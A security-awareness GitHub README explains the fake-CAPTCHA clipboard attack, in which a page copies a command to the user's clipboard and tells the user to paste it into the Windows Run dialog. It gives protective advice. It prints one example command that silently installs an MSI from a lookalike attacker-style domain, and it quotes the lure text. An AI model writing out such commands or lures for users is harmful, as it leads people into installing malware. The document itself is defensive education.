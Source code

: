 # CAPTCHA Social Engineering Attack – A Silent Threat You Should Know About

<!-- Optional GitHub Banner Image URL -->

![captcha social engineering](https://github.com/user-attachments/assets/bd9416a2-6672-4344-bf6c-eb65180158cc)


## 📖 Overview

In today’s cybersecurity landscape, attackers are becoming smarter and using creative ways to trick unsuspecting users. One such dangerous and deceptive technique is called a **CAPTCHA Social Engineering Attack** — a method that abuses the familiar "I'm not a robot" CAPTCHA to compromise your system.

---

## ⚙️ How This Attack Works

1. You visit a suspicious or malicious website.
2. The site shows a seemingly legitimate CAPTCHA — similar to Google or Cloudflare’s human verification.
3. Believing it’s genuine, you click the CAPTCHA checkbox.
4. **Silently, a malicious command gets copied into your clipboard** without your knowledge. Example:

```
msiexec /qn /i https://clloudsverify.com/o.msi
```

5. Then you see a message like this:

> "To complete the verification process, press **Win + R**, then **Ctrl + V**, and hit Enter."

6. Once you obey:

   * **Win + R** opens the Run dialog.
   * **Ctrl + V** pastes the malicious command.
   * **Enter** executes it.

This installs malware silently — no alerts, no warnings.

---

## 🎯 Why This Attack is Dangerous

* **Trust Exploitation**: Users assume CAPTCHA equals safety.
* **Clipboard Hijacking**: Code is injected silently.
* **Social Engineering**: Users are tricked into executing commands.
* **Stealthy Execution**: The command uses Windows Installer (`msiexec`) in quiet mode (`/qn`) to avoid detection.

---

## 💥 Potential Impacts

* ⚠️ Full system compromise
* ⚠️ Theft of credentials, files, personal data
* ⚠️ Installation of Remote Access Trojans (RATs)
* ⚠️ Long-term backdoor access for attackers

---

## 🛡️ How to Protect Yourself

✅ **Never follow online instructions** asking you to use Win + R and paste commands.

✅ **Always check clipboard content** before pasting — open Notepad, press Ctrl + V, and inspect.

✅ **Avoid unknown or suspicious websites**.

✅ **Keep security software updated**.

✅ **Educate others** about such modern social engineering methods.

---

## 🚫 Important Reminder

Just because a CAPTCHA appears doesn’t mean a site is trustworthy. Fake CAPTCHAs can easily be weaponized for such attacks.

> **Stay alert. Stay secure.** 🔐

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

---

## 🏷️ GitHub Topics

`cybersecurity` `social-engineering` `clipboard-attack` `malware` `security-awareness` `hacking` `information-security` `cyber-threats`

---

## 🙌 Contributions

Contributions, suggestions, and improvements are welcome. Feel free to open an Issue or Pull Request.

---

## 🔗 Author

**Md Jahid Hasan Antor**
[LinkedIn]([https://www.linkedin.com/in/jahid-hasan-antor/]) | [GitHub](https://github.com/AntorDOS)

---

*This repository is intended for educational and awareness purposes only.*
